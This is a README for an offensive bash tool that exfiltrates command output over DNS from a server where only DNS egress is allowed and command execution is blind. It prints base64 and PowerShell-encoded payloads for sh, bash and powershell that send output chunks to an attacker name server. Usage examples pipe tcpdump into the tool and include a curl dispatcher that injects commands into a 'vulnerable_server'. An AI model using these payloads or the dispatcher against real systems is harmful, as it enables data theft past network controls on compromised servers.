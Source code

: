 # DNS Data Exfiltration

A bash script that automates the exfiltration of data over dns in case we have a blind command execution on a server where all outbound connections except DNS are blocked. The script currently supports sh, bash and powershell and is compatible with exec style command execution (e.g. java.lang.Runtime.exec).

<p align="center">
  <img src="images/op.gif"/>
</p>

For its operations, the script takes as input the command we want to run on the target server and transforms it according to the target shell in order to allow its output to be exfiltrated over DNS. After the command is transformed, it's fed to the "dispatcher". The dispatcher is a program provided by the user and is responsible for taking as input a command and have it executed on the target server by any means necessary (e.g. exploiting a vulnerability). After the command is executed on the target server, it is expected to trigger DNS requests to our DNS name server containing chunks of our data. The script listens for those requests until the output of the user provided command is fully exfiltrated.

Below are the supported command transformations, generated for the exfiltration of the command: `ls`

sh:
```bash
sh -c $@|base64${IFS}-d|sh . echo IGRpZyBAMCArdHJpZXM9NSBgKGxzKXxiYXNlNjQgLXcwfHdjIC1jYC5sZW4xNjAzNTQxMTc4LndoYXRldi5lcgo=
```

bash:
```bash
bash -c {echo,IG5zbG9va3VwIGAobHMpfGJhc2U2NCAtdzB8d2MgLWNgLmxlbi4xNjAzMDMwNTYwLndoYXRldi5lcgo=}|{base64,-d}|bash
```

powershell:
```bash
powershell -enc UgBlAHMAbwBsAHYAZQAtAEQAbgBzAE4AYQBtAGUAIAAkACgAIgB7ADAAfQAuAHsAMQB9AC4AewAyAH0AIgAgAC0AZgAgACgAWwBDAG8AbgB2AGUAcgB0AF0AOgA6AFQAbwBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoAFsAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgALgBHAGUAdABCAHkAdABlAHMAKAAoAGwAcwApACkAKQAuAGwAZQBuAGcAdABoACkALAAiAGwAZQBuACIALAAiADEANgAwADMAMAAzADAANAA4ADgALgB3AGgAYQB0AGUAdgAuAGUAcgAiACkACgA=
```

## Usage
1. Local testing for bash:
```bash
./dns_data_exfiltration.sh -h whatev.er -d "dig @0 +tries=5" -x dispatcher_examples/local_bash.sh -- 'ls -lha|grep secret' < <(stdbuf -oL tcpdump --immediate -l -i any udp port 53)
```

Contents of local_bash.sh:
> $@

2. Local testing for powershell with WSL2:
```bash
stdbuf -oL tcpdump --immediate -l -i any udp port 53|./dns_data_exfiltration.sh -w ps -h whatev.er -d "Resolve-DnsName -Server wsl2_IP -Name" -x dispatcher_examples/local_powershell_wsl2.sh -- 'gci | % {$_.Name}'
```

Contents of local_powershell_wsl2.sh:
> /mnt/c/Windows/System32/WindowsPowerShell/v1.0/powershell.exe ${@:1}

3. powershell example where we ssh into our NS to get the incoming DNS requests.
```bash
./dns_data_exfiltration.sh -w ps -h yourdns.ns -d "Resolve-DnsName" -x ./dispatcher.sh -- 'gci | % {$_.Name}' < <(stdbuf -oL ssh user@HOST 'sudo tcpdump --immediate -l udp port 53')
```

Contents of dispatcher.sh
> curl https://vulnerable_server --data-urlencode "cmd=${1}"

4. More information on the options
```bash
dns_data_exfiltration.sh --help
```

### Comments
Currently the provided command gets executed multiple times on the server until all of its output is extracted. This behavior may cause problems in case that command is not idempotent (functionality or output-wise, e.g. process listing) or is time/resource intensive. 
A workaround to avoid running into issues for the aforementioned cases is to first store the command output into a file (e.g. /tmp/file) and then read that file.

### Todos
 - Concurrency in the data exfiltration loop